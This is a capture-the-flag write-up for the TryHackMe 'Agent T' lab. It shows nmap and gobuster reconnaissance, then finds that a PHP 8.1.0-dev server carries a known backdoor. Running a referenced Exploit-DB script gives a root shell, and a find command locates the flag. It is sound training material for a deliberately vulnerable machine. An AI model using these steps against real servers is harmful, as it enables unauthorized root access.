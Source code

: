 ```yaml
---
title: 'Tryhackme - Agent T Writeup'
description: 'Agent T uncovered this website, which looks innocent enough, but something seems off about how the server responds...\n\nAfter deploying the vulnerable machine attached to this task, please wait a couple of minutes for it to respond.' 
publishedAt: '2023-07-20'
---
```


# Tryhackme - Agent T (Easy) 
Agent T uncovered this website, which looks innocent enough, but something seems off about how the server responds...

After deploying the vulnerable machine attached to this task, please wait a couple of minutes for it to respond.

## Scanning the system
```bash
sudo nmap -sS -sV -p- -oN nmap.initial agentt.thm
```
Results:
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-20 13:51 CEST
Nmap scan report for agentt.thm (10.10.57.74)
Host is up (0.040s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.08 seconds
```

## Enumerating Webserver 
Based on the nmap report this doesn't seem to be a standard web server like Apache or Nginx, but a PHP webserver. I never heard of a PHP cli server myself, so i first googled what it is. Seems like its just a webserver that is built-in in php intended for testing while developing an application. It's not intended to be used on a public network.

### Manual enumeration
On the website there seems to be some sort of admin dashboard. By clicking on most links it's pretty clear that it's just template and not an actual functional website. Most links aren't working at all.

I checked if there was a sitemap or robots.txt present, but couldn't find one.
Looking through the code of the home page also didnt result in any clues.

### Bruteforcing directories
```bash
gobuster dir -u http://agentt.thm -w /opt/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://agentt.thm
[+] Threads:        10
[+] Wordlist:       /opt/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/07/20 14:00:32 Starting gobuster
===============================================================
Error: the server returns a status code that matches the provided options for non existing urls. http://agentt.thm/4ff7bea7-7aa6-4fd9-94e4-e9d84de9c17f => 200. To force processing of Wildcard responses, specify the '--wildcard' switch
```
Bruteforcing directories won't work cause all of the non existing paths just lead back to the same home page.

Requests to files do seem to work and return a 404 like expected if they dont exist.

I started a scan for files with the php extension, but couldn't seem to find any other php files.
```bash
gobuster dir -u http://agentt.thm -w /opt/wordlists/dirbuster/directory-list-2.3-medium.txt -x php --wildcard | grep .php
```
```
gobuster dir -u http://agentt.thm -w /opt/wordlists/dirbuster/directory-list-2.3-medium.txt -x php --wildcard | grep .php
[+] Extensions:     php
/index.php (Status: 200)
/php (Status: 200)
/phpBB2 (Status: 200)
/logo_phpBB (Status: 200)
/grphp (Status: 200)
/phpbb (Status: 200)
/phpadsnew (Status: 200)
/phpads (Status: 200)
/phpAdsNew (Status: 200)
/phpBB (Status: 200)
```
The only results here apart from the index.php are directories.

### Diving deeper into the PHP Cli server 
By simply googling the name and version of the server I found out that there is a backdoor in this version of the CLI server.

An exploit for it is available on (exploit-db)[https://www.exploit-db.com/exploits/49933].
After running the exploit we get a shell as root.
```bash
python exploit.py
```
```
Enter the full host url:
http://agentt.thm/

Interactive shell is opened on http://agentt.thm/
Can't acces tty; job crontol turned off.
$ id
uid=0(root) gid=0(root) groups=0(root)
```

## Finding the flag
I couldn't find the flag in the `/root/` directory where it usually resides.
After checking a few more directories, i found the flag by simply running a find command.
```bash
find / -type f -name flag.txt 2>/dev/null
```
Turns out that the flag was simply in the root directory at `/flag.txt`.

## Conclusion
This box was very easy and after short enumeration of the webserver I found out there was a backdoor in this version of the PHP Cli webserver.
